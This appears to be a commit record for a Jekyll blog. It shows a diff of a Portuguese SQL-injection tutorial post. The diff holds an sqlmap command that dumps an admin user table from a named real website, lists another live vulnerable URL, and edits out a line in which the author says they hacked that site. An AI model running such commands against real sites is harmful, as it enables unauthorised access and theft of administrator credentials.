

Before and after one commit to Kingm0b/jekyll-minimal-theme, a Jekyll site: the page built from _posts/2017-02-27-sql-injection.md, in a window 1280 px wide and 900 px high, scrolled down 6825 px. Shown: the whole window, without its empty margins (266-1007 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add files via upload

````diff
--- a/_posts/2017-02-27-sql-injection.md
+++ b/_posts/2017-02-27-sql-injection.md
@@ -254,7 +254,7 @@
 
 Obs: **-D** *admin_nd* **-T** *admin*, define que queremos trabalhar com a tabela *admin* da database *admin_nd*.
 
-Obs²: com --dump pedidos para o sqlmap nos mostrar o conteúdo desta tabela.
+Obs²: com <code>--dump</code> pedidos para o sqlmap nos mostrar o conteúdo desta tabela.
 
 Resultado:
 
@@ -278,7 +278,7 @@
 * http://www.mediations.ch/cms/news.php?id=10
 
 
-Consegui invadir esse site: http://www.stonetouch.ch/
+Exemplo mais direto: http://www.stonetouch.ch/
 
 ```
 $ python sqlmap.py -u http://www.stonetouch.ch/news.php?id=9 -D c_bohnet_stonetouch-english -T wk_admin_user --dump -v0
````
